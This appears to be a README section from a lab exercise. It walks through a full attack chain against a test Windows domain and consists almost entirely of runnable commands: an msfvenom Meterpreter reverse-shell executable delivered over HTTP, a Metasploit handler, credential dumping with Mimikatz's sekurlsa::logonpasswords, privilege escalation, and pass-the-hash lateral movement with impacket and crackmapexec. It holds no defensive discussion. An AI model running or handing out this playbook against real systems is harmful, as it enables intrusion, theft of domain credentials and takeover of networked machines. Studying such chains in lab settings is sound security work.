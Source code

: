 
## ⚔️ Attack Simulation

### Step 1 – Generate Payload

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.4 LPORT=5555 -f exe > shell64.exe
python3 -m http.server 1234
```

### Step 2 – Transfer and Execute Payload

On Windows 10 client:  
Visit `http://192.168.1.4:1234` and run `shell64.exe`.

### Step 3 – Metasploit Handler

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.4
set LPORT 5555
run
```

### Step 4 – Post-Exploitation

```bash
getuid
sysinfo
load kiwi
kiwi_cmd sekurlsa::logonpasswords
```

If failed, try:

```bash
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
getsystem
kiwi_cmd sekurlsa::logonpasswords
```

Save NTLM hash for Admin account.

---

## 🚪 Lateral Movement (Using Hash)

```bash
cd /usr/share/doc/python3-impacket/examples/
python3 psexec.py -hashes :d2eafa9129913be5081371eb305a5fc3 test.local/Administrator@192.168.1.1
python3 wmiexec.py -hashes :d2eafa9129913be5081371eb305a5fc3 test.local/Administrator@192.168.1.1
python3 smbexec.py -hashes :d2eafa9129913be5081371eb305a5fc3 test.local/Administrator@192.168.1.1

crackmapexec smb 192.168.1.1 -u Administrator -H d2eafa9129913be5081371eb305a5fc3 -x "whoami"
```
